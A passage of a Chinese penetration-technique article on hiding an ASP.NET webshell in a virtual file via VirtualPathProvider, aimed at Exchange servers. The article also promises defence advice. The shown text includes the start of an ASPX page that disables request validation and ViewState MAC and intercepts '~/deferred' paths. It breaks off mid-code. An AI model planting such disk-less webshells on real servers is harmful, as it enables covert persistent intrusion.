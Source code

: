 ```yaml
---
layout: post
title: 渗透技巧——利用虚拟文件隐藏ASP.NET Webshell
---
```



## 0x00 前言
---

通过ASP.NET的VirtualPathProvider类能够创建虚拟文件，实现以下效果：虚拟文件不存在于服务器的文件系统，但是能够对其动态编译并提供访问服务。[ysoserial.net](https://github.com/pwntester/ysoserial.net)的[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)提供了一种可供学习的利用思路。

本文将要介绍虚拟文件的利用方法，在[ysoserial.net](https://github.com/pwntester/ysoserial.net)的[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)基础上介绍Exchange下的利用方法，开源代码，记录细节，给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- VirtualPathProvider在Exchange下的利用
- DotNet反序列化在Exchange下的利用
- 防御检测

## 0x02 VirtualPathProvider在Exchange下的利用
---

参考资料：

https://docs.microsoft.com/en-us/dotnet/api/system.web.hosting.virtualpathprovider?view=netframework-4.8

在实现上需要继承VirtualPathProvider类并重写两个方法：FileExists和GetFile，注册VirtualPathProvider并创建实例后，实现虚拟文件的创建

示例代码：

```
<%@ Page Language="C#" AutoEventWireup="true" validateRequest="false" EnableViewStateMac="false" %>
<%@ Import Namespace="System.Web.Hosting" %>
<%@ Import Namespace="System.Web.Compilation" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.Reflection" %>
<%@ Import Namespace="System.Security.Cryptography" %>
<script runat="server">

    public class DeferredPathProvider : VirtualPathProvider
    {
        public DeferredPathProvider() : base()
        {
        }

        public bool IsTargetVirtualPath(string virtualPath)
        {
            string path = VirtualPathUtility.ToAppRelative(virtualPath);
            return path.StartsWith("~/deferred", StringComparison.InvariantCultureIgnoreCase);
        }

        public override VirtualFile GetFile(string virtualPath)
        {
            if (IsTargetVirtualPath(virtualPath))
            {
                return new DeferredVirtualFile(this, virtualPath);
```